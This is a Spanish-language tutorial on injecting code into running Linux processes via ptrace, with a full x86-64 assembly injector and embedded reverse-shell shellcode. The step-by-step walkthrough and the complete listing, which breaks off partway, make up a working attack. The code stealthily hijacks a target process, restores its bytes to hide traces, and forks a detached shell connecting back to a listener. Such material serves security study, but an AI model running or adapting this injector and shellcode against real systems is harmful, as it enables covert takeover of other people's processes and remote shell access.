

Process Injection via Ptrace¶
Inyección de código en procesos Linux usando ptrace, implementado completamente en ensamblador x86-64. Sin dependencias.
Uso responsable
El contenido de este sitio web se publica exclusivamente con fines educativos e informativos. El autor no promueve, respalda ni se hace responsable del uso indebido o ilegal de la información aquí expuesta. Cualquier acción realizada a partir de este contenido debe llevarse a cabo únicamente en entornos controlados, sistemas propios o con autorización expresa y verificable del propietario del sistema.
Introducción¶
En esta técnica un proceso (tracer) toma el control de otro proceso en ejecución (tracee) para inyectar y ejecutar código arbitrario dentro de su espacio de direcciones. En Linux, el mecanismo que lo hace posible es la syscall ptrace, la misma que utilizan internamente depuradores como GDB o herramientas de trazado como strace.
La idea general es sencilla, adjuntarnos al proceso víctima, pausar su ejecución, reservar memoria ejecutable dentro de su espacio de direcciones, copiar nuestro shellcode en esa memoria y redirigir el flujo de ejecución hacia él.
La explotación constará de dos componentes:
proc_inj.asm: El programa inyector. Se encarga de adjuntarse al proceso víctima, reservar memoria, copiar el shellcode y redirigir la ejecución.proc_inj_rev_tcp.asm: Se convertirá en el shellcode que será inyectado. En este caso, será una reverse shell TCP modificada que, tras la inyección, hace que el proceso padre retome a su ejecución rutinaria mientras el proceso hijo (nuevo) establece la conexión reversa.
La syscall PTRACE¶
Todas las operaciones relevantes sobre el proceso víctima se realizan a través de la syscall ptrace (process trace) (número 101 en x86-64). Aunque fue diseñada originalmente para implementar depuradores y herramientas de diagnóstico, su capacidad de manipular completamente la ejecución de un proceso la convierte también en un vector de ataque.
A nivel de kernel, cuando un proceso se vincula a otro mediante ptrace, se establece una relación especial entre ambos. El kernel marca al tracee con un flag interno (PT_PTRACED) indicando que está siendo trazado. A partir de ese momento, ciertos puntos de ejecución pasan a estar mediados por el tracer. Cuando el tracee alcanza uno de estos puntos, en lugar de continuar su ejecución normal, el kernel lo detiene y coloca en un estado de pausa controlada (ptrace-stop), donde permanece suspendido hasta que el tracer decida reanudarlo.
El tracer es notificado de estas paradas mediante el mecanismo wait*, que reutiliza el sistema estándar de espera entre procesos de Linux para indicarle la razón de la detención. Mientras el tracee está detenido, el tracer puede inspeccionar o modificar su estado completo (registros/memoria) y decidir cómo continuar la ejecución.
¿Qué permite hacer ptrace?¶
Las capacidades que permite ptrace sobre el proceso tracee son las siguientes:
- Leer y escribir memoria: Acceso directo al espacio de direcciones del tracee. Permite examinar el código que está ejecutando, inspeccionar variables en el stack o el heap y escribir datos o instrucciones en cualquier dirección mapeada.
- Leer y escribir registros del CPU: Acceso completo a todos los registros del procesador. Esto permite conocer exactamente en qué punto de ejecución se encuentra el tracee y manipular el flujo de control modificando el instruction pointer y/o los argumentos de las syscalls.
- Controlar la ejecución instrucción por instrucción: Con operaciones como
PTRACE_SINGLESTEP, el tracer puede ejecutar exactamente una instrucción del tracee y detenerlo de nuevo, permitiendo observar los cambios que produce cada instrucción individual. - Interceptar syscalls: El tracer puede ser notificado cada vez que el tracee entra o sale de una syscall, permitiendo inspeccionar o modificar los argumentos y valores de retorno. Esta es la base de herramientas como
strace. - Interceptar señales: El tracer recibe las señales dirigidas al tracee antes de que este las procese, pudiendo suprimirlas, modificarlas o inyectar nuevas señales.
Argumentos de Entrada¶
rax = 101 ; número de syscall (__NR_ptrace)
rdi = request ; operación (PTRACE_*)
rsi = pid ; PID del proceso objetivo
rdx = addr ; dirección (puntero)
r10 = data ; dato/dirección (puntero)
Las operaciones de ptrace usadas son:
| Operación | Valor | Descripción |
|---|---|---|
PTRACE_ATTACH |
16 | El tracer se adjunta al proceso con PID indicado en pid. El kernel envía SIGSTOP al tracee. Se requiere wait4 para esperar la detención efectiva. |
PTRACE_PEEKDATA |
2 | Lee 8 bytes de la memoria del tracee en la dirección addr. El valor leído se almacena en la dirección apuntada por data. |
PTRACE_POKEDATA |
5 | Escribe el valor de data (8 bytes) en la memoria del tracee en la dirección addr. |
PTRACE_SINGLESTEP |
9 | Reanuda la ejecución del tracee pero lo detiene de nuevo tras ejecutar una sola instrucción. Requiere wait4 después para sincronizarse. |
PTRACE_GETREGS |
12 | Copia todos los registros del CPU del tracee en un buffer proporcionado por el tracer (a través de data), siguiendo el layout de user_regs_struct. |
PTRACE_SETREGS |
13 | Establece todos los registros del CPU del tracee desde un buffer proporcionado por el tracer (a través de data). |
PTRACE_DETACH |
17 | El tracer se desadjunta del tracee, eliminando el flag PT_PTRACED. El que era el tracee reanuda su ejecución. |
Estructura user_regs_struct¶
Cuando se usa PTRACE_GETREGS o PTRACE_SETREGS, se trabaja con una estructura de 27 campos de 8 bytes (216 bytes en total) que contiene todos los registros del CPU. El orden de los campos y sus offsets es fundamental para manipular registros específicos:
| Offset | Registro |
|---|---|
0x00 |
R15 |
0x08 |
R14 |
0x10 |
R13 |
0x18 |
R12 |
0x20 |
RBP |
0x28 |
RBX |
0x30 |
R11 |
0x38 |
R10 |
0x40 |
R9 |
0x48 |
R8 |
0x50 |
RAX |
0x58 |
RCX |
0x60 |
RDX |
0x68 |
RSI |
| Offset | Registro |
|---|---|
0x70 |
RDI |
0x78 |
ORIG_RAX |
0x80 |
RIP |
0x88 |
CS |
0x90 |
EFLAGS |
0x98 |
RSP |
0xA0 |
SS |
0xA8 |
FS_BASE |
0xB0 |
GS_BASE |
0xB8 |
DS |
0xC0 |
ES |
0xC8 |
FS |
0xD0 |
GS |
Explicación del inyector paso a paso¶
Sección de Datos¶
La sección .data del inyector contiene el shellcode. Este shellcode es la versión compilada de proc_inj_rev_tcp.asm (explicado más adelante en este artículo), pero podría ser el que el atacante quisiera.
La sección .bss reserva tres buffers de 216 bytes cada uno (27 registros x 8 bytes):
regs: Buffer de trabajo donde se cargan y modifican los registros del tracee.regs_ori: Copia de respaldo de los registros originales del tracee.regs_sys: Buffer auxiliar para capturar el resultado de la syscallmmapejecutada en el tracee.
Attach y Detención del Proceso¶
El PID del proceso objetivo se almacena previamente en un registro.
; 1 Attach y detención del proceso
; PTRACE_ATTACH
mov rax, 101
mov rdi, 16 ; PTRACE_ATTACH (0x10)
mov rsi, r15 ; PID
xor rdx,rdx ; addr
xor r10, r10 ; data
syscall
; WAIT4:
; Cuando se hace PTRACE_ATTACH, el kernel envía SIGSTOP al proceso objetivo.
; Es necesario llamar a wait4 para bloquear al tracer hasta que el proceso tracee
; esté efectivamente detenido antes de poder manipularlo.
mov rax, 61
mov rdi, r15 ; PID a esperar (-1 para cualquier hijo)
sub rsp, 8
mov rsi, rsp ; &status
xor rdx, rdx ; options
xor r10, r10 ; rusage
syscall
El primer paso es adjuntarse al proceso víctima usando PTRACE_ATTACH (operación 16).
Cuando el kernel recibe esta solicitud, envía una señal SIGSTOP al proceso tracee, lo que provoca su detención. Sin embargo, esta detención no es instantánea, el proceso necesita tiempo para procesar la señal y detenerse efectivamente. Por eso es imprescindible llamar a wait4 (syscall número 61) inmediatamente después. Esta llamada bloquea al tracer hasta que el tracee esté completamente detenido y listo para ser manipulado.
Sin la ejecución de la syscall
wait4, cualquier operación posterior sobre el tracee podría fallar o producir resultados impredecibles porque el proceso aún no estaría en un estado estable.
Preservación del Contexto de Ejecución¶
; 2 Preservación del contexto de ejecución
; PTRACE_GETREGS
mov rax, 101
mov rdi, 12 ; PTRACE_GETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs] ; puntero al buffer donde se va almacenar la estructura de registros
syscall
; Copia de los registros originales del traceee en el buffer de backup
lea rsi, [rel regs] ; RSI se usa como puntero de origen y va avanzando
lea rdi, [rel regs_ori] ; RDI se usa como puntero destino y va avanzando
mov rcx, 27 ; RCX se usa como contador y se va decrementando hasta 0
cld ; DF=0 (dirección de copia ascendente)
rep movsq ; mueve RCX qwords: [RSI] -> [RDI]
; movsq copia un qword (8 bytes) desde la dirección apuntada por RSI hacia la dirección apuntada por RDI
; rep repite esa operación RCX veces
Con PTRACE_GETREGS (operación 12) obtenemos una instantánea completa de todos los registros del CPU del proceso tracee en el momento de su detención. Esta información se almacenará en el buffer siguiendo la arquitectura de user_regs_struct.
A continuación, se realiza una copia de respaldo de esta estructura en otro buffer. Este backup es crítico porque durante el proceso de inyección vamos a modificar los registros del tracee para ejecutar una syscall en su contexto. Sin esta copia, no podríamos restaurar el estado original del proceso después de la inyección.
Inyección de la Instrucción Syscall¶
; 3 Inyección de la instrucción syscall (0x0f 0x05)
mov r12, [regs+0x80] ; Contenido del RIP del proceso tracee (dirección de la próxima instrucción a ejecutar)
; PTRACE_PEEKDATA (leer memoria) Se leen 8 bytes a partir de la dirección actual a la que apunta el RIP del proceso tracee
mov rax, 101
mov rdi, 2 ; PTRACE_PEEKDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
sub rsp, 8 ; 8 bytes
mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
syscall
mov r11, [rsp] ; En r11 y en el tope del stack se encuentra el valor al que apunta RIP del tracee
mov r13, r11 ; Backup del valor original
and r11, 0xFFFFFFFFFFFF0000 ; limpiar los 2 bytes bajos
or r11, 0x000000000000050F ; insertar syscall (0x0f 0x05 en little-endian)
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
mov r10, r11 ; valor de 8 bytes a escribir
syscall
Aquí es donde comienza la parte interesante. El primer objetivo es hacer que el proceso tracee ejecute una syscall en particular, concretamente mmap, para reservar memoria ejecutable en el heap del proceso, este será el espacio que ocupará nuestro shellcode. Para ello, necesitamos que en la dirección a la que apunta el RIP del tracee exista una instrucción syscall (opcode 0x0F 0x05).
El proceso es el siguiente:
- Se extrae la dirección actual a la que apunta el registro
RIPdel tracee desde el buffer de registros (regs+0x80). Esta es la dirección de la próxima instrucción que el tracee iba a ejecutar antes de ser detenido. - Con
PTRACE_PEEKDATA(operación 2) se leen los 8 bytes que hay en esa dirección de memoria del tracee. Estos bytes son instrucciones que el tracee estaba a punto de ejecutar. - Se guarda una copia del valor original (lo necesitaremos después para restaurar). Luego se modifican solo los 2 bytes menos significativos del valor leído, reemplazándolos por
0x0F 0x05(el opcode de la instrucciónsyscallen x86-64). La máscaraAND 0xFFFFFFFFFFFF0000limpia los 2 bytes bajos y elOR 0x050Finserta el opcode en little-endian. - Con
PTRACE_POKEDATA(operación 5) se escribe el valor modificado de vuelta en la memoria del tracee, sobreescribiendo temporalmente las instrucciones originales con una instrucciónsyscall.
Configuración de Registros para MMAP¶
; 4 Configuración de registros para MMAP
; MMAP
mov qword [regs+0x50], 9 ; (RAX) Se sustituye todo el valor del registro Número de syscall para mmap
mov qword [regs+0x70],0 ; (RDI) rdi = addr = 0 (NULL) → Pide al kernel que elija la dirección
mov qword [regs+0x68],4096 ; (RSI) rsi = length = 4096 bytes (1 página típica)
mov qword [regs+0x60],7 ; (RDX) rdx = prot = 7 => PROT_READ(1) | PROT_WRITE(2) | PROT_EXEC(4)
mov qword [regs+0x38],34 ; (R10) r10 = flags = 34 => MAP_PRIVATE(0x2) | MAP_ANONYMOUS(0x20)
mov qword [regs+0x48],-1 ; (R8) r8 = fd = -1 (usado con MAP_ANONYMOUS; -1 indica "no file")
mov qword [regs+0x40],0 ; (R9) r9 = offset = 0 (desplazamiento en el fd; irrelevante con ANONYMOUS)
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs] ; puntero al buffer donde se encuentra la estructura de registros
syscall
Ahora que tenemos una instrucción syscall lista en el punto de ejecución del tracee, necesitamos configurar sus registros para que esa syscall ejecute exactamente lo que queremos, una llamada a mmap que reserve una página de memoria con permisos de lectura, escritura y ejecución (RWX).
Los registros se modifican directamente en nuestro buffer usando los offsets correspondientes y luego se aplican los cambios en el tracee con PTRACE_SETREGS:
rax = 9 ; número de syscall (mmap)
rdi = addr ; dirección sugerida (0 = el kernel elige)
rsi = length ; tamaño del mapeo en bytes
rdx = prot ; protecciones: PROT_READ|PROT_WRITE|PROT_EXEC...
r10 = flags ; MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED...
r8 = fd ; descriptor (si MAP_ANONYMOUS, típicamente -1)
r9 = offset ; offset en el fichero (en bytes, múltiplo de página)
La combinación MAP_PRIVATE | MAP_ANONYMOUS indica al kernel que cree una región de memoria privada, no respaldada por ningún archivo en disco. Los permisos RWX son necesarios porque vamos a escribir el shellcode en esta región y luego ejecutarlo.
Ejecución Controlada de la Syscall MMAP¶
; 5 Ejecución controlada de la syscall MMAP
;PTRACE_SINGLESTEP
mov rax, 101
mov rdi, 9 ; PTRACE_SINGLESTEP
mov rsi, r15 ; PID
xor rdx, rdx ; addr
xor r10, r10 ; data
syscall
; WAIT4:
mov rax, 61
mov rdi, r15 ; PID a esperar (-1 para cualquier hijo)
sub rsp, 8
mov rsi, rsp ; &status
xor rdx, rdx ; options
xor r10, r10 ; rusage
syscall
; PTRACE_GETREGS
mov rax, 101
mov rdi, 12 ; PTRACE_GETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_sys] ; puntero al buffer donde se va almacenar la estructura de registros
syscall
; 6 Obtención del resultado de la syscall MMAP
xor r12, r12
mov r12, [regs_sys+0x50] ; (RAX) dirección donde comienza la zona de memoria reservada com permisos RWX
Con los registros del tracee configurados y la instrucción syscall en su lugar, usamos PTRACE_SINGLESTEP (operación 9) para ejecutar exactamente una instrucción en el contexto del tracee. Esa instrucción es el syscall que inyectamos en el paso 3, que con los registros modificados del paso 4, ejecutará mmap.
Posteriormente, usamos PTRACE_GETREGS para obtener el estado de los registros después de la ejecución de la syscall. El valor de retorno de mmap quedará almacenado en el registro RAX del tracee. Este valor es la dirección base de la nueva región de memoria con permisos RWX que el kernel ha asignado dentro del espacio de direcciones del proceso objetivo.
El motivo de usar un buffer diferente es simple,
regsya fue modificado en el paso 4 (los registros para elmmap) yregs_oricontiene los registros originales que necesitamos preservar intactos.regs_sysnos permite capturar el resultado demmapsin contaminar ninguno de los dos.
Restauración del Contenido en la Dirección Apuntada por RIP¶
; 7 Restauración del contenido ubicado en la dirección a la que apunta el registro RIP del tracee
xor r14, r14
mov r14, [regs_ori+0x80]
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r14 ; addr
mov r10, r13 ; valor de 8 bytes a escribir
syscall
En el paso 3, sobreescribimos los bytes originales ubicados en la dirección apuntada por el registro RIP. Ahora que ya ejecutamos mmap, es momento de restaurar esos bytes originales para no dejar rastro de nuestra manipulación.
Se obtiene la dirección original del RIP desde regs_ori+0x80 y se usa PTRACE_POKEDATA para escribir de vuelta el valor original. Tras esta operación, la memoria del tracee en ese punto vuelve a contener exactamente las mismas instrucciones que tenía antes de la intervención.
Restauración de los Registros Originales¶
; 8 Restauración de los registros originales del proceso tracee
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
syscall
Con PTRACE_SETREGS se restauran todos los registros del tracee a su estado original usando el backup regs_ori. Esto devuelve al tracee a exactamente el mismo estado en el que se encontraba cuando lo detuvimos.
Esto es importante porque en los pasos posteriores vamos a modificar selectivamente solo el registro RIP (para redirigir la ejecución al shellcode) y el orig_rax (para evitar el reinicio de syscalls).
Almacenamiento del RIP de Retorno¶
; 9 Almacenamiento del RIP de retorno en los últimos 8 bytes de la región de memoria reservada por MMAP
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
lea rdx, [r12+4088] ; addr
mov r10, r14 ; valor de 8 bytes a escribir
syscall
Este paso es clave para que la inyección sea transparente, el proceso tracee debe poder retomar su ejecución después de que el shellcode haga su trabajo.
La región de memoria reservada por mmap tiene 4096 bytes (según lo asignado en los argumentos de entrada). El shellcode se escribirá desde el inicio de esta región, pero los últimos 8 bytes (offset+4088) se reservarán para almacenar la dirección de retorno (el valor original del registro RIP del tracee).
Cuando el shellcode se ejecute en el contexto del tracee, hará fork (crea un proceso hijo duplicando el proceso actual). El proceso hijo ejecutará la reverse shell, pero el proceso padre necesita saber a dónde volver. El padre leerá esta dirección desde [_start + 4088] (que equivale a mmap_base + 4088) y saltará a ella, retomando la ejecución exactamente donde se había detenido.
Región RWX (4096 bytes):
┌──────────────────────────────────────────────────┬──────────┐
│ Shellcode (bytes 0..4087) │ RIP ret │
│ │ (8 bytes)│
│ _start → fork, setsid, socket, connect... │ 4088-4095│
└──────────────────────────────────────────────────┴──────────┘
▲
│
El padre lee esta
dirección y salta
Inyección del Shellcode¶
; 10 Inyección del shellcode en la zona de memoria reservada (PTRACE_POKEDATA escribe 8 bytes)
xor r13,r13
lea r13, [rel shellcode] ; puntero al shellcode
xor r14, r14
mov r14, sc_len / 8 ; contador de palabras a escribir
push r12
.loop_inj:
cmp r14, 0 ; compara el contador de palabras a escribir con 0
jz .done ; si contador == 0, saltar a .done
; PTRACE_POKEDATA
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
mov r10, [r13] ; valor de 8 bytes a escribir
syscall
add r12, 8
add r13, 8
dec r14
jmp .loop_inj
Ahora se copia el shellcode completo en la región de memoria reservada. Dado que PTRACE_POKEDATA escribe exactamente 8 bytes por llamada, debemos iterar sc_len / 8 veces (longitud del shellcode dividida entre 8).
En cada iteración:
r13apunta a la posición actual dentro del shellcode (en el espacio del tracer).r12apunta a la posición actual dentro de la región generada pormmap(en el espacio del tracee).- Se leen 8 bytes desde
[r13]y se escriben en[r12]del tracee. - Ambos punteros avanzan 8 bytes y el contador
r14se decrementa.
El shellcode está alineado a 8 bytes (se añaden bytes
0x90(NOP) al final si es necesario) para que la última escritura dePTRACE_POKEDATAno se salga de los límites del shellcode.
Redirigir Ejecución al Inicio del Shellcode y Detach¶
; 11 Redirigir ejecución al inicio del shellcode
.done
pop r12
mov qword [regs_ori+0x80], r12 ; RIP == dirección del inicio de la memoria reservada == inicio del shellcode
mov qword [regs_ori+0x78], -1 ; orig_rax = -1 (evita syscall restart)
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
syscall
; 12 Detach del tracee
; PTRACE_DETACH
mov rax, 101
mov rdi, 17 ; PTRACE_DETACH
mov rsi, r15 ; PID
xor rdx, rdx ; addr
xor r10, r10 ; signal = 0 (no enviar señal)
syscall
; EXIT
mov rax, 60
xor rdi,rdi
syscall
Con el shellcode ya en su lugar, se realizan las modificaciones finales antes de liberar al tracee.
Se modifica el campo RIP en la estructura de registros para que apunte al inicio de la región definida por mmap, que es donde comienza el shellcode previamente inyectado. Cuando el tracee reanude su ejecución, lo hará desde la primera instrucción del shellcode.
Se establece el valor de orig_rax, **usado internamente por el kernel para el mecanismo de syscall restart. Si el tracee fue detenido durante una syscall interrumpida, el kernel podría intentar re-ejecutarla automáticamente al reanudar. Establecer orig_rax = -1 le dice al kernel que no hay ninguna syscall pendiente de reinicio, evitando comportamientos inesperados.
Se aplican los registros modificados con PTRACE_SETREGS.
Se libera al tracee con PTRACE_DETACH (operación 17). Esto reanuda la ejecución del proceso, que ahora comenzará a ejecutar el shellcode inyectado.
El shellcode: Reverse TCP shell¶
El shellcode inyectado (proc_inj_rev_tcp.asm) no es una reverse shell convencional. Está diseñado específicamente para el contexto de inyección en procesos, con dos características clave:
fork: Crea un proceso hijo que ejecuta la reverse shell, mientras el proceso padre retoma la ejecución normal del tracee.setsid: El proceso hijo crea una nueva sesión, desvinculándose del terminal y del grupo de procesos del padre.
Flujo del Proceso Padre¶
; FORK
mov rax, 57
syscall
cmp rax, 0 ; si rax==0 se trata del hijo
jz .child
lea r11, [rel _start] ; r11 = dirección de _start = mmap_base = RIP inicial del shellcode
; Proceso Padre
mov r14, [r11+4088] ; Obtiene dirección de retorno
jmp r14 ; Salta a la dirección de retorno sobreescribiendo el registro RIP
Tras el fork, el proceso padre necesita volver al punto exacto donde fue interrumpido. Para ello, obtiene la dirección base del shellcode en memoria (que coincide con el inicio de la región definida tras mmap). Sumando 4088 obtiene la posición donde el inyector almacenó la dirección de retorno original (paso 9). Finalmente, haciendo uso de la syscall jmp se salta a esa dirección, retomando su ejecución como si nada hubiera pasado.
Se utiliza r11 intencionalmente porque es un ‘clobbered register’. Por tanto, al usar r11 nos aseguramos de no modificar ningún registro funcional del proceso tracee que pudiera afectar a su ejecución futura.
Flujo del proceso Hijo¶
El proceso hijo invoca a la syscall setsid (syscall número 112) para crear una nueva sesión. Esto lo desvincula del terminal controlador y del grupo de procesos del padre, haciendo que la reverse shell sea independiente del proceso original.
Tras esto, se ejecuta la secuencia estándar de una reverse TCP shell, explicada en el artículo Reverse TCP Shell.
Código Completo¶
proc_inj.asm (Inyector)¶
section .data
shellcode:
db 0xb8, 0x39, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
db 0x83, 0xf8, 0x00, 0x74, 0x11, 0x4c, 0x8d, 0x1d
db 0xec, 0xff, 0xff, 0xff, 0x4d, 0x8b, 0xb3, 0xf8
db 0x0f, 0x00, 0x00, 0x41, 0xff, 0xe6, 0xb8, 0x70
db 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x29, 0x00
db 0x00, 0x00, 0xbf, 0x02, 0x00, 0x00, 0x00, 0xbe
db 0x01, 0x00, 0x00, 0x00, 0x48, 0x31, 0xd2, 0x0f
db 0x05, 0x49, 0x89, 0xc0, 0xb8, 0x2a, 0x00, 0x00
db 0x00, 0x4c, 0x89, 0xc7, 0x4d, 0x31, 0xc9, 0x41
db 0x51, 0x49, 0xba, 0x02, 0x00, 0x11, 0x5c, 0x7f
db 0x00, 0x00, 0x01, 0x41, 0x52, 0x48, 0x89, 0xe6
db 0xba, 0x10, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
db 0x31, 0xf6, 0xb8, 0x21, 0x00, 0x00, 0x00, 0x4c
db 0x89, 0xc7, 0x0f, 0x05, 0x48, 0xff, 0xc6, 0x48
db 0x83, 0xfe, 0x03, 0x7c, 0xed, 0xb8, 0x3b, 0x00
db 0x00, 0x00, 0x6a, 0x00, 0x49, 0xbc, 0x2f, 0x62
db 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x41, 0x54
db 0x48, 0x89, 0xe7, 0x6a, 0x00, 0x48, 0x89, 0xe6
db 0x6a, 0x00, 0x48, 0x89, 0xe2, 0x0f, 0x05, 0xb8
db 0x3c, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x0f
db 0x05, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
sc_len equ $ - shellcode
section .bss
regs resq 27 ; sizeof(user_regs_struct) en x86_64 (27x8 bytes)
regs_ori resq 27
regs_sys resq 27
section .text
global _start
_start:
; PID
mov r15, 2120
; 1 Attach y detención del proceso:
; PTRACE_ATTACH
mov rax, 101
mov rdi, 16 ; PTRACE_ATTACH (0x10)
mov rsi, r15 ; PID
xor rdx,rdx ; addr
xor r10, r10 ; data
syscall
; WAIT4:
; Cuando se hace PTRACE_ATTACH, el kernel envía SIGSTOP al proceso objetivo.
; Es necesario llamar a wait4 para bloquear al tracer hasta que el proceso tracee
; esté efectivamente detenido antes de poder manipularlo.
mov rax, 61
mov rdi, r15 ; PID a esperar (-1 para cualquier hijo)
sub rsp, 8
mov rsi, rsp ; &status
xor rdx, rdx ; options
xor r10, r10 ; rusage
syscall
; -----------------------------------------
; 2 Preservación del contexto de ejecución
; PTRACE_GETREGS
mov rax, 101
mov rdi, 12 ; PTRACE_GETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs] ; puntero al buffer donde se va almacenar la estructura de registros
syscall
; En este punto, regs contiene:
; 0x00 r15
; 0x08 r14
; 0x10 r13
; 0x18 r12
; 0x20 rbp
; 0x28 rbx
; 0x30 r11
; 0x38 r10
; 0x40 r9
; 0x48 r8
; 0x50 rax
; 0x58 rcx
; 0x60 rdx
; 0x68 rsi
; 0x70 rdi
; 0x78 orig_rax
; 0x80 rip
; 0x88 cs
; 0x90 eflags
; 0x98 rsp
; 0xA0 ss
; 0xA8 fs_base
; 0xB0 gs_base
; 0xB8 ds
; 0xC0 es
; 0xC8 fs
; 0xD0 gs
; Copia de los registros originales del traceee en el buffer de backup
lea rsi, [rel regs] ; RSI se usa como puntero de origen y va avanzando
lea rdi, [rel regs_ori] ; RDI se usa como puntero destino y va avanzando
mov rcx, 27 ; RCX se usa como contador y se va decrementando hasta 0
cld ; DF=0 (dirección de copia ascendente)
rep movsq ; mueve RCX qwords: [RSI] -> [RDI]
; movsq copia un qword (8 bytes) desde la dirección apuntada por RSI hacia la dirección apuntada por RDI
; rep repite esa operación RCX veces
; -----------------------------------------
; 3 Inyección de la instrucción syscall (0x0f 0x05)
mov r12, [regs+0x80] ; Contenido del RIP del proceso tracee (dirección de la próxima instrucción a ejecutar)
; PTRACE_PEEKDATA (leer memoria) Se leen 8 bytes a partir de la dirección actual a la que apunta el RIP del proceso tracee
mov rax, 101
mov rdi, 2 ; PTRACE_PEEKDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
sub rsp, 8 ; 8 bytes
mov r10, rsp ; puntero a data (direccion donde se almacenará la info leída)
syscall
mov r11, [rsp] ; En r11 y en el tope del stack se encuentra el valor al que apunta RIP del tracee
mov r13, r11 ; Backup del valor original
and r11, 0xFFFFFFFFFFFF0000 ; limpiar los 2 bytes bajos
or r11, 0x000000000000050F ; insertar syscall (0x0f 0x05 en little-endian)
; PTRACE_POKEDATA (escribir en memoria)
mov rax, 101
mov rdi, 5 ; PTRACE_POKEDATA
mov rsi, r15 ; PID
mov rdx, r12 ; addr
mov r10, r11 ; valor de 8 bytes a escribir
syscall
;Valor en registro/hex: 0x00007ffe6f9001b0
;Descomposición:
; 0x 00 00 7f fe 6f 90 01 b0
; ▲ ▲
; │ │
; MSB LSB
; (más significativo) (menos significativo)
;En memoria (little-endian, LSB primero):
;RIP → 0x7f7a85496687: ┌────┐
; │ b0 │ ← Primer byte, primera instrucción
; 0x7f7a85496688: ├────┤
; │ 01 │
; 0x7f7a85496689: ├────┤
; │ 90 │
; 0x7f7a8549668a: ├────┤
; │ 6f │
; 0x7f7a8549668b: ├────┤
; │ fe │
; 0x7f7a8549668c: ├────┤
; │ 7f │
; 0x7f7a8549668d: ├────┤
; │ 00 │
; 0x7f7a8549668e: ├────┤
; │ 00 │
; └────┘
; -----------------------------------------
; 4 Configuración de registros para MMAP
; MMAP
mov qword [regs+0x50], 9 ; (RAX) Se sustituye todo el valor del registro Número de syscall para mmap
mov qword [regs+0x70],0 ; (RDI) rdi = addr = 0 (NULL) → Pide al kernel que elija la dirección
mov qword [regs+0x68],4096 ; (RSI) rsi = length = 4096 bytes (1 página típica)
mov qword [regs+0x60],7 ; (RDX) rdx = prot = 7 => PROT_READ(1) | PROT_WRITE(2) | PROT_EXEC(4)
mov qword [regs+0x38],34 ; (R10) r10 = flags = 34 => MAP_PRIVATE(0x2) | MAP_ANONYMOUS(0x20)
mov qword [regs+0x48],-1 ; (R8) r8 = fd = -1 (usado con MAP_ANONYMOUS; -1 indica "no file")
mov qword [regs+0x40],0 ; (R9) r9 = offset = 0 (desplazamiento en el fd; irrelevante con ANONYMOUS)
; PTRACE_SETREGS
mov rax, 101
mov rdi, 13 ; PTRACE_SETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs] ; puntero al buffer donde se encuentra la estructura de registros
syscall
; -----------------------------------------
; 5 Ejecución controlada de la syscall MMAP
;PTRACE_SINGLESTEP
mov rax, 101
mov rdi, 9 ; PTRACE_SINGLESTEP
mov rsi, r15 ; PID
xor rdx, rdx ; addr
xor r10, r10 ; data
syscall
; WAIT4:
mov rax, 61
mov rdi, r15 ; PID a esperar (-1 para cualquier hijo)
sub rsp, 8
mov rsi, rsp ; &status
xor rdx, rdx ; options
xor r10, r10 ; rusage
syscall
; PTRACE_GETREGS
mov rax, 101
mov rdi, 12 ; PTRACE_GETREGS
mov rsi, r15 ; PID
xor rdx, rdx ; addr
lea r10, [rel regs_sys] ; puntero al buffer donde se va almacenar la estructura de registros
syscall
; -----------------------------------------
; 6 Obtención del resultado de la syscall MMAP
xor r12, r12
mov r12, [regs_sys+0x50] ; (RAX) dirección donde comienza la zona de memoria reservada com permisos RWX
; -----------------------------------------
